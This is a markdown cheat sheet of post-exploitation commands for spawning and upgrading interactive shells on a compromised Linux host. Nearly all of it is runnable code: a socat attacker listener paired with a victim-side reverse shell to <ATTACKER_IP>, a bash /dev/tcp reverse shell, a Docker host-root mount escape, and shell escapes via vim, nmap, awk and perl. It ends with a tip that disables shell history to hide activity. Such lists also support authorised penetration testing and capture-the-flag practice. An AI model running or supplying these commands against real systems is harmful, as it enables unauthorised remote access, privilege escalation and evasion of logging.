# Spawning TTY Shells

## 🔧 Python Methods

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

You can also use:

```bash
python -c 'import os; os.system("/bin/bash")'
```

## 🐍 Socat Methods (from attacker and victim)

On attacker (listener):

```bash
socat file:`tty`,raw,echo=0 tcp-listen:4444
```

On victim (reverse shell):

```bash
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:<ATTACKER_IP>:4444
```

## 🦀 Script Method (if available on the system)

```bash
script /dev/null -c bash
```

## 📟 /dev/tcp and Bash Method (interactive reverse shell)

```bash
bash -i >& /dev/tcp/<ATTACKER_IP>/4444 0>&1
```

Once connected, you can upgrade the shell with stty (explained below).

## 🐚 Shell Upgrade with System Commands (stty and export)

Once you use any of the above methods (like python -c 'pty.spawn(...)'), you can further improve it with:

```bash
CTRL+Z   # Pause the shell and return to your local terminal
stty raw -echo; fg
```

Then, type:

```bash
reset
export SHELL=bash
export TERM=xterm-256color
stty rows <num> columns <num>    # Adjust size if needed
```

## 🧬 With Perl

```bash
perl -e 'exec "/bin/bash";'
```

Or with pseudo-terminal:

```bash
perl -e 'use POSIX; POSIX::setsid(); exec "/bin/bash";'
```

## ☕ With Java

If Runtime.exec() is accessible:

```java
Runtime.getRuntime().exec("/bin/bash");
```

(Generally not very useful manually, but useful in Java app exploitation).

## 🦥 With Lua

```bash
lua -e "os.execute('/bin/bash')"
```

## 🧱 With Awk

```bash
awk 'BEGIN {system("/bin/bash")}'
```

## 🧪 With Tcl

```bash
tclsh
exec /bin/bash
```

## 🧞‍♂️ With vi or vim (command mode)

```bash
vim
:!bash
```

Or:

```bash
vim -c ':!bash'
```

## 🖋️ With nmap (if it has scripting with --interactive)

```bash
nmap --interactive
!sh
```

## 💾 With Docker / Chroot / chsh if you have permissions

```bash
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```

Or if you can change your shell:

```bash
chsh -s /bin/bash
```

## 🧠 Useful Tips

If you have a shell without colors or history, export:

```bash
export TERM=xterm-256color
export HISTFILE=/dev/null
```

To check if a TTY is assigned:

```bash
tty
```

